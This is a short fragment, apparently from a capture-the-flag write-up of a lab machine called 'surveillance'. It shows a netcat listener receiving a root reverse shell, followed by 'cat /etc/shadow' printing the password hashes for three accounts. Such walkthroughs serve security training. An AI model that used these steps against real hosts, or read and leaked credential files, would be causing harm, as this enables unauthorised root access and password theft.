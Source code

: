    ```
   listening on [any] 4444 ...
   id
   connect to [10.10.16.3] from (UNKNOWN) [10.10.11.245] 53820
   bash: cannot set terminal process group (1109): Inappropriate ioctl for device
   bash: no job control in this shell
   root@surveillance:/tmp# id
   uid=0(root) gid=0(root) groups=0(root)
   root@surveillance:/tmp# 
   ```

   /etc/shadow

   ```
   root@surveillance:/tmp# cat /etc/shadow
   cat /etc/shadow
   root:$y$j9T$bVNsNlTFFqsWiO2JYT0ZH/$ZzxFCnolnSpcSfQxaWNtq3BDIRPIVU9X.dm/ACzRAl9:19651:0:99999:7:::
   
   matthew:$y$j9T$oipsGfEBv1fcFV1uQ6Bl4.$44F4J5xtr2V4oN.zY0OB.8r3p1TllAlaMivft5R8o18:19647:0:99999:7:::
   
   zoneminder:$y$j9T$.wNHpksMBEdFIQZZJTsDp/$r43uCJLrmfIgv4ZnMiyhMqykrru7aoPIuunhUrTTxp/:19647:0:99999:7:::
   ```

   



